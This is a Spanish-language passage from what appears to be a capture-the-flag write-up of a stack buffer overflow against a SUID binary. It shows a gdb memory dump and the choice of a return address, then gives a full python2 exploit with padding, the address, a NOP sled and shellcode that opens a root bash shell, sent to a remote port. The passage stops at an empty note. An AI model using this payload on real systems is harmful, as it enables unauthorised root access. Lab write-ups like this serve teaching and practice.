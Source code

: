 Info:

```
0xffffd2e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd300:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd310:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd320:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd330:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd340:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd350:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd360:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd370:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd380:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd390:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3a0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3b0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3c0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3d0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd400:     0x43434343      0x43434343      0x43434343      0x4343000a
0xffffd410:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd420:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd430:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd440:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd450:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd460:     0x43434343      0x43434343      0x43434343      0x43434343
```

Vemos que alguna de estas direcciones de memoria es en la que vamos a poder inyectar la `shell` por lo que vamos a elegir una de forma aleatoria que este por el medio, en mi caso elegire la siguiente:

```
0xffffd3b0
```

Ahora vamos a crearnos una `shell` inyectandola en esta direccion de memoria, por lo que nos dara una `shell` como `root` ya que el binario esta con permisos `SUID` y se estaria ejecutando como `root`.

Vamos a salirnos del `gdb` e iniciar el binario `server` de forma normal:

```shell
./server
```

> host

```shell
python2 -c 'print b"A"*76 + b"\xb0\xd3\xff\xff" + b"\x90"*200 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"' | ./sender <IP> 7777
```

> NOTA:
